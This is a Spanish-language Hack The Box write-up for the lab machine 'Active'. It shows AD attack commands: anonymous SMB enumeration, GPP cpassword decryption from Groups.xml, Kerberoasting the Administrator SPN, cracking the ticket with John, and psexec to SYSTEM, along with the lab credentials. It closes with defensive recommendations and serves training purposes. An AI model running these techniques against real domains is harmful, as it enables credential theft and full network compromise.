








# Active — Hack The Box

**Plataforma:** Hack The Box
**Dificultad:** 🟢 Fácil
**SO:** Windows (Active Directory)
**Autor de la máquina:** No confirmado en las capturas (dato de HTB no verificado con certeza)
**Fecha de resolución:** 2026
**Técnicas:** Nmap · `enum4linux` · SMB anónimo (share `Replication`) · **GPP cpassword** en `Groups.xml` (`gpp-decrypt`) · **Kerberoasting** (`GetUserSPNs`) sobre una cuenta con SPN · John the Ripper · `psexec` → SYSTEM

---

## Índice
1. [Reconocimiento](#1-reconocimiento)
2. [Enumeración SMB — GPP cpassword](#2-enumeración-smb--gpp-cpassword)
3. [Acceso — Kerberoasting sobre una cuenta con SPN](#3-acceso--kerberoasting-sobre-una-cuenta-con-spn)
4. [Obtención de shell](#4-obtención-de-shell)
5. [Post-explotación y flags](#5-post-explotación-y-flags)
6. [Lección aprendida](#6-lección-aprendida)
7. [Flujo de ataque](#7-flujo-de-ataque)

---

## 1. Reconocimiento

```bash
ping -c 1 10.129.76.40
```



Escaneo completo de puertos TCP:

```bash
nmap -sS -Pn -vvv --min-rate 5000 --open -n -p- -oN AllPorts 10.129.76.40
```



```bash
enum-nmap AllPorts
```


> 💡 22 puertos abiertos, entre ellos **53, 88, 389, 445, 464, 636, 3268, 3269 y 9389** — el conjunto clásico de un **controlador de dominio de Active Directory**.

Escaneo de versión y scripts por defecto:

```bash
nmap -sS -Pn -sCV -T5 -n -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49165,49166,49168 -oN Ports 10.129.76.40
```


```
53/tcp  open  domain  Microsoft DNS 6.1.7601 (Windows Server 2008 R2 SP1)
389/tcp open  ldap    Microsoft Windows Active Directory LDAP (Domain: active.htb, ...)
Service Info: Host: DC; OS: Windows
```

> 💡 Dominio **`active.htb`**, controlador de dominio **`DC`**, Windows Server 2008 R2.

## 2. Enumeración SMB — GPP cpassword

```bash
enum4linux 10.129.76.40 -A
```



Enumeración de shares SMB:


```
ADMIN$      Disk  Remote Admin
C$          Disk  Default share
IPC$        IPC   Remote IPC
NETLOGON    Disk  Logon server share
Replication Disk
SYSVOL      Disk  Logon server share
```

> 💡 El share **`Replication`** permite listado anónimo (`Listing: OK`), a diferencia del resto de shares administrativos que requieren autenticación.

Nos conectamos de forma anónima:

```bash
smbclient //10.129.76.40/Replication
```


Navegando por la estructura típica de replicación de GPOs, encontramos un `Groups.xml`:

```
smb: \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups> ls
smb: \...\Groups> get Groups.xml
```


```xml
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}">
  <User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" ...
    cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
    ... userName="active.htb\SVC_TGS"/>
</Groups>
```


> 💡 **`Groups.xml`** es el fichero que usa **Group Policy Preferences (GPP)** para desplegar cuentas de usuario/grupos locales vía GPO. El campo **`cpassword`** contiene la contraseña cifrada con AES-256 — pero Microsoft publicó la clave simétrica usada en su documentación (MSDN), por lo que **cualquiera puede descifrarla**. Este es el motivo por el que Microsoft deshabilitó la creación de nuevas GPP con contraseñas tras el boletín MS14-025, aunque las ya existentes (como esta) siguen siendo explotables.

Añadimos el dominio al `/etc/hosts`:



Desciframos la contraseña:

```bash
gpp-decrypt 'edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ'
```



```
GPPstillStandingStrong2k18
```

Validamos las credenciales obtenidas (`active.htb\SVC_TGS`):

```bash
crackmapexec smb 10.129.76.40 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
```


```
[+] active.htb\SVC_TGS:GPPstillStandingStrong2k18
```

## 3. Acceso — Kerberoasting sobre una cuenta con SPN

Con una cuenta de dominio válida, enumeramos qué cuentas tienen un **SPN** (Service Principal Name) asociado:

```bash
GetUserSPNs.py -dc-ip 10.129.76.40 'active.htb/SVC_TGS:GPPstillStandingStrong2k18'
```



```
ServicePrincipalName   Name            MemberOf
---------------------  --------------  --------------------------------------------------------
active/CIFS:445        Administrator   CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb
```

> 💡 **Hallazgo clave:** el SPN `active/CIFS:445` está asociado directamente a la cuenta **`Administrator`**, no a una cuenta de servicio de bajo privilegio. Esto es una configuración inusual (normalmente los SPN se asignan a cuentas de servicio dedicadas), pero el mecanismo de ataque es idéntico: cualquier usuario autenticado del dominio puede solicitar un ticket de servicio Kerberos para **cualquier** cuenta con SPN, sin necesitar permisos especiales sobre ella.

Solicitamos el ticket de servicio (TGS) para ese SPN:

```bash
GetUserSPNs.py -dc-ip 10.129.76.40 'active.htb/SVC_TGS:GPPstillStandingStrong2k18' -request
```


```
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$3bd4889daedc08827e83fc37930731d3$...
```

> 💡 El KDC cifra parte de ese ticket con el **hash de la contraseña de la cuenta de servicio** (aquí, Administrator) — eso es lo que lo hace crackeable offline, sin generar ningún evento adicional en el DC más allá de la propia solicitud del ticket, que es completamente legítima desde el punto de vista de Kerberos.

Crackeamos el hash TGS:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```



```
Ticketmaster1968
```

## 4. Obtención de shell

Con la contraseña en claro de **Administrator**, pass-the-password directo con `psexec`:

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.129.76.40 cmd.exe
```


```
whoami
nt authority\system
```

> 💡 `psexec` sube un binario de servicio a `ADMIN$`, lo registra con el Service Control Manager y lo arranca — el servicio corre como **`NT AUTHORITY\SYSTEM`**, no solo como Administrator.

```
whoami /all
```


## 5. Post-explotación y flags

Shell de SYSTEM confirmada en el controlador de dominio — compromiso total acreditado. Las capturas disponibles no incluyen la lectura explícita del contenido de `user.txt` ni `root.txt`, por lo que no se documentan aquí sus valores ni la ruta exacta de lectura.

## 6. Lección aprendida

| Vulnerabilidad | Dónde | Impacto |
|----------------|-------|---------|
| Share SMB con listado anónimo habilitado | `Replication` | Expone la estructura interna de replicación de GPOs sin ninguna credencial |
| Contraseña de GPP (Group Policy Preferences) cifrada con una clave AES públicamente conocida | `Groups.xml` | Cualquiera con acceso de lectura obtiene la contraseña en claro de la cuenta `SVC_TGS` |
| SPN asignado directamente a la cuenta `Administrator` en vez de a una cuenta de servicio dedicada | Atributo `servicePrincipalName` | Cualquier usuario autenticado puede solicitar un ticket Kerberos crackeable para la cuenta más privilegiada del dominio (**Kerberoasting**) |
| Contraseña de Administrator débil, presente en `rockyou.txt` | Cuenta `Administrator` | Compromiso total del dominio tras crackear el hash TGS |

## Recomendaciones defensivas

- Deshabilitar el listado anónimo en shares SMB; auditar periódicamente los permisos de `NETLOGON`, `SYSVOL` y carpetas de replicación.
- Eliminar cualquier GPP con contraseñas almacenadas (`cpassword`); Microsoft recomienda este cambio desde MS14-025. Rotar cualquier credencial que haya estado expuesta de esta forma.
- Nunca asociar un SPN directamente a una cuenta privilegiada como Administrator; usar cuentas de servicio dedicadas con el mínimo privilegio necesario.
- Exigir contraseñas robustas y largas en todas las cuentas de dominio, especialmente en cuentas con SPN (candidatas directas a Kerberoasting) y en cuentas privilegiadas.
- Monitorizar solicitudes de tickets de servicio (TGS) inusuales para cuentas privilegiadas, como indicador de un posible Kerberoasting.
- Considerar **Managed Service Accounts (gMSA)** para cuentas de servicio, que usan contraseñas gestionadas automáticamente, largas y rotadas periódicamente.

## 7. Flujo de ataque



> 💡 **El porqué de cada paso:** el listado anónimo de SMB es casi siempre el primer sitio donde buscar en una máquina AD "fácil", porque no cuesta nada probarlo. `Groups.xml` se busca específicamente porque GPP es una fuente de credenciales histórica y muy conocida (clave AES filtrada por el propio Microsoft). Una vez con credenciales de dominio válidas — por bajas que sean sus privilegios — **siempre** merece la pena enumerar SPNs: Kerberoasting no requiere ningún permiso especial sobre la cuenta objetivo, solo que tenga un SPN asignado, porque solicitar un TGS es una operación Kerberos estándar disponible para cualquier usuario autenticado. En Active, la peculiaridad es que el SPN vulnerable pertenece directamente a Administrator — normalmente pertenecería a una cuenta de servicio de menor privilegio, y el camino continuaría con esa cuenta en vez de terminar directamente en SYSTEM.

---

*Writeup por [Arabot](https://github.com/Caan31) · Hack The Box · 2026*
*¿Te ha ayudado? Dale una ⭐ al repositorio.*
